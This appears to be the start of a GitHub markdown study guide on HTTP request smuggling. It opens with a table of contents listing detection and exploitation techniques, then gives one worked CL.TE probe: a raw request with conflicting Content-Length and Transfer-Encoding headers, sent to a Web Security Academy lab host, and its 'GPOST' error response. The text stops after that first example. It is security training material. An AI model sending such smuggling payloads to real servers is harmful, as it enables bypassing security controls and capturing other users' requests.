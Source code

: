 # Content
- [HTTP 1.1 request smuggling Types](#http-11-request-smuggling-types)
  - [CL.TE](#clte)
      - [Finding CL.TE](#finding-clte)
          - [using differential responses](#using-differential-responses)
          - [using time delay](#using-time-delay)
  - [TE.CL](#tecl)
      - [Finding TE.CL](#finding-tecl)
          - [using differential responses](#using-differential-responses-1)
          - [using time delay](#using-time-delay-1)
- [HTTP 2 request smuggling Types](#http-2-request-smuggling-types)
  - [H2.CL](#h2cl)
  - [H2.TE](#h2te)
- [Response queue poisoning](#response-queue-poisoning-source)
- [Request smuggling via CRLF injection](#request-smuggling-via-crlf-injection)
- [Request smuggling HTTP/2 request splitting](#request-smuggling-http2-request-splitting)

- [Exploiting HTTP request smuggling vulnerabilities](#exploiting-http-request-smuggling-vulnerabilities)
  - [bypass front-end security controls](#bypass-front-end-security-controls)
  - [Revealing front-end request rewriting](#revealing-front-end-request-rewriting)
  - [Capturing other users' requests](#capturing-other-users-requests)
  - [reflected XSS to Stored XSS](#reflected-xss-to-stored-xss)
  - [Turn an on-site redirect into an open redirect](#turn-an-on-site-redirect-into-an-open-redirect)
  - [Turning root-relative redirects into open redirects](#turning-root-relative-redirects-into-open-redirects)
  - [Perform web cache poisoning](#perform-web-cache-poisoning)
  - [Perform web cache deception](#perform-web-cache-deception)



## HTTP 1.1 request smuggling Types 
### CL.TE
the front-end server uses the Content-Length header and the back-end server uses the Transfer-Encoding
#### Finding CL.TE
##### using differential responses
- request
```http
POST / HTTP/1.1
Host: 0a6500df03127c4d814e75e300a100a0.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
Content-Length: 8
Transfer-Encoding: chunked\r\n
\r\n
0\r\n

G

```
- response
```http
HTTP/1.1 403 Forbidden
Content-Type: application/json; charset=utf-8
Connection: keep-alive
Connection: close
Content-Length: 27

"Unrecognized method GPOST"
```
**OR**
